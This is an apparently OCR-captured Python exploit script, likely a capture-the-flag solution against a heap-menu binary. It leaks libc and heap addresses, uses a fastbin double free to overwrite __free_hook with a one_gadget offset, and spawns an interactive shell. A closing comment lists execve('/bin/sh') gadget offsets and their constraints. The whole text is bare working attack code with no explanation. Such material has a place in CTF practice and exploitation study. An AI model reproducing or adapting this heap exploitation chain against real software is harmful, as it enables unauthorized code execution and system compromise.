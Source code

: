 ```
show(4)
addr = u64(ru("\x7f")[-6:].ljust(8,"\x00"))
print hex(addr)
libc.address = addr - 0xa +0x78 -arena64 - 88

heap  = u64(ru("\x55")[-6:].ljust(8,"\x00")) - 0x1350
print hex(heap)
one = libc.address+ 0x4526a
m_hook = libc.symbols["__free_hook"]

add(4,"\x55") #5

de(3)
de(5)
de(3)

hp2 = heap+0x40 # 指向heap_field 2 
add(4,p64(hp2)) #6
add(4,p64(0x60)) #7
add(4,p64(0x60)) # 8
add(4,p64(0x21)) #9

de(3)
de(5)
de(3)
add(4,p64(heap+0x40+8)) #10
add(4,"a"*8) #11
add(4,"a"*8) # 12
add(4,p64(m_hook)) # 13
edit(1,p64(one))

de(0)

io.interactive()
'''
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

'''
```


